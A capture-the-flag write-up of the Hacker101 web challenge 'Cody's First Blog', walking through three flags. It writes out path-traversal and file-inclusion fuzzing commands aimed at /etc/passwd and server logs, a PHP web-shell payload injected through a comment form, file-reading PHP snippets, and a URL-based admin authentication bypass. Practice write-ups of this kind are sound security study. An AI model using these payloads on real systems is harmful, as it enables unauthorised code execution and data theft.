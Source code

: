 # Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Log Poisoning via Comment Section
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially poison log files by injecting PHP code through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.

![First Flag](FirstFlag.png)

---

## 🔐 Step 3: Second Flag - Admin Panel Access
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `?page=admin.auth.inc`
<br>
![Admin Auth Required](AdminAuthInc.png)

**After:** `?page=admin.inc`
<br>
![Admin Panel Access](AdminAuth.png)

This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo ("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly.

![Approved Comments](ApprovedComments.png)

Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.

![Source Code Flag](SourceCodeFlag.png)

---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via comment injection

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Local File Inclusion:** Combined with code injection to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms.
